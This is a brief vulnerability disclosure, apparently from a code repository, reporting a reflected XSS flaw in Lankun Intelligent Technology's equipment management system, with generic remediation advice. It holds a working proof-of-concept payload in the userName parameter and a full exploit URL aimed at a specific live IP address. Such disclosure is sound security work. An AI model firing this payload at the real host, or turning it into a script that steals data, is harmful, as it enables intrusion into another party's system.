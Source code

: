 

朗坤智慧科技股份有限公司 的设备管理系统存在 xss

xss exists in the equipment management system of Lankun Intelligent Technology Co., LTD

userName=<svg%20onload=alert(1)>//

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

http://121.37.245.131:8081/Liems/changePsw.jsp?userName=%3Csvg%20onload=alert(1)%3E//

![1](1.png)

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.
